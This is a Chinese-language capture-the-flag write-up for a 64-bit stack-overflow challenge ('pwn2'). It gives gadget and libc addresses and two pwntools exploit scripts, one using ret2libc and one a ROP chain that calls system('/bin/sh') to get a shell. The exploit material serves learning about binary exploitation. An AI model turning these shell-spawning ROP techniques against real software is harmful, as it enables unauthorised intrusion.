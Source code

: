 一樣有 magic 函式，裡面變成`system('/bin/ls')`
但是我們想要的是 /bin/sh

binary中沒有 /bin/sh 可以去 .so 裡面找

![](https://i.imgur.com/1VAqHx9.png)

透過 ldd 發現是用 libc.so.6 (題目有給)

題目檔案是 64-bit
> pwn2: ELF 64-bit LSB executable, x86-64

可以利用 ret2libc 手法 搜集 pop_rdi_ret, binsh_addr, system_addr

![](https://i.imgur.com/bN75qUA.png)

> pop_rdi_ret 0x00000000004006d3

![](https://i.imgur.com/sKcGyCc.png)

> system_libc_addr 0x7ffff7a52390

> binsh_libc_addr 0x7ffff7b99d57


```python
from pwn import *
#p = remote('10.140.0.8', 11112)
p = process('./pwn2')
offset = 'a' * 16
target_addr = 0x04005f7
prr = p64(0x00000000004006d3)
binsh = p64(0x7ffff7b99d57)
system = p64(0x7ffff7a52390)

payload = offset + prr + binsh + system
p.sendline(payload)
p.interactive()
```


比賽時在local測試一直不行，找不出原因(ubuntu18.04)。
後來用16.04才發現local可以，但是也無法連到遠端測試了

---

ret2libc 行不通，因為不知道遠 libc 位置 ， 直接串 ROP即可

```python
from pwn import *

r = process("./pwn2")

offset = 'a'*16
pop_rsi_r15_ret = p64(0x4006d1)
pop_rdi_ret = p64(0x4006d3)

read_plt = p64(0x4004f0)
buf = p64(0x601100) # 找一塊有寫入權限的位置來使用
system_plt = p64(0x4004e0)
magic = p64(0x4005f7)


payload = flat([offset,
                pop_rsi_r15_ret,
                buf,
                'a' * 8,
                read_plt,
                pop_rdi_ret,
                buf,
                system_plt,
                "/bin/sh\x00"])

r.sendline(payload)
r.interactive()
```
